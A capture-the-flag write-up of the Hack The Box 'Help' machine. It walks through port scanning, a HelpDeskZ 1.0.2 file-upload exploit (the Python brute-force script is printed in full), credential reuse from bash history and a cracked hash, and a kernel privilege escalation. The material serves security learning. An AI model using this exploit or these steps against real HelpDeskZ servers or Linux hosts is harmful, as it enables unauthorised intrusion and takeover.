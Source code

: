 # Hack The Box: Help machine write-up

This is a cool machine based on a file upload which leads to user followed by a kernel exploit that grants us root. Not quite complicated right? The machine is running on port 10.10.10.121.

### Enumeration

First, I enumerate open ports to discover the services running in the machine:

```sh
nmap -sV -sC -oA nmap/initial 10.10.10.121
```

```console
# Nmap 7.70 scan initiated Wed Feb  6 19:50:38 2019 as: nmap -sV -sC -oA nmap/initial 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up (0.031s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  6 19:50:53 2019 -- 1 IP address (1 host up) scanned in 15.03 seconds
```

As we can see, there is SSH enabled, a node.js instance on port 3000 and a web server on port 80. I didn't even use the node service, so I think this attack vector was a bit unintended. It's the only one that I found, though.

*Accessing web server on port 80*

![Img](images/apache.png "Img")

Upon finding the Apache2 default page I decided to use DirBuster to try to find juicy things. The most interesting things found were these two directories:

* ```/support/```
* ```/support/uploads/tickets/``` (this second one will be used later)

*HelpDeskZ running on ```/support```*

![Img](images/hd1.png "Img")

We see that apart from logging in there is as well the possibility of uploading a ticket.

*Ticket submission page*

![Img](images/hd2.png "Img")

And guess what, it can include a file! Looks like we may have found something exploitable.

*Possibility to upload a file*

![Img](images/hd3.png "Img")

### Exploit

First of all, I tried to upload a PHP file, but got this error.

*Error upon uploading a PHP file*

![Img](images/file_blocked.png "Img")

So then I searched on the internet and came across a python code that was supposedly exploiting this file upload feature:

```py
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

Apparently, it tries to brute-force the name of a file, which is an md5 hash of the file + the time at which it was created. Weird... Then, I found out the code was in GitHub! You can find it [here](https://github.com/evolutionscript/HelpDeskZ-1.0). So I started going through it and found out a really interesting thing on this piece of code:

*Vulnerable piece of code*

![Img](images/github1.png "Img")

![Img](images/github2.png "Img")

Unbelievable! They are storing the file and afterwards doing the security check! The developers must have thought that security would be kept by just hashing the name of the file with the upload time.

It took me some time to realise why the script wasn't working, but I finally realised that it was because the path wasn't right, all files were being uploaded to ``/support/uploads/tickets/``. I tried uploading an image to check this and it worked!

*Image uploaded path*

![Img](images/image_upload.png "Img")

Now I just needed to upload a shell and launch the script! Surprisingly, we're already user ``help``!. So I tried reading the ``user.txt`` hash and got it without problem:

*Getting a reverse shell*

![Img](images/shell.png "Img")

### Privilege escalation

I inspected the system and found inside the ``.bash_history`` file this entry:

````mysql -uroot -phelpme support```

So I ran it and got different tables, from which ``users`` was definitely the most interesting one:

```console
mysql> show tables;
+------------------------+
| Tables_in_support      |
+------------------------+
| articles               |
| attachments            |
| canned_response        |
| custom_fields          |
| departments            |
| emails                 |
| error_log              |
| file_types             |
| knowledgebase_category |
| login_attempt          |
| login_log              |
| news                   |
| pages                  |
| priority               |
| settings               |
| staff                  |
| tickets                |
| tickets_messages       |
| users                  |
+------------------------+
19 rows in set (0.00 sec)

mysql> select * from users;
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
| id | salutation | fullname | email                 | password                                 | timezone        | status |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
|  1 |          0 | helpme   | helpme@helpme.com     | c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca | Europe/Brussels |      1 |
|  2 |          0 | xcvxv    | lolololol@yopmail.com | ec09fa0d0ba74336ea7fe392869adb198242f15a | NULL            |      1 |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
9 rows in set (0.00 sec)
```

I cracked helpme's hash ``c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca`` and got ``Welcome1``. Then, I tried loggin in as ``help`` through SSH with that password and success! That made things so much easier.

Getting back to the privesc part, I ran ``uname -a`` to find the kernel's version to get the following:

```
help@help:~$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

It was obviously Linux Kernel 4.4 so I used ``searchsploit`` to try to find some useful exploit. And indeed there was a local privilege escalation, which I finally used.

*Finding the right exploit with searchsploit*

![Img](images/searchsploit.png "Img")

I copied the C code to the machine serving it with python SimpleHTTPServer and then using wget. Once there, I just needed to compile and run it!

*Getting root*

![Img](images/root.png "Img")

Note: I'll keep the hash here in case it is needed to read write-ups (b7fe6082dcdf0c1b1e02ab0d9daddb98).

Really nice machine! Kudos to the creator! I hope you enjoyed reading.

---
<center><i>Diego Bernal Adelantado</i></center>
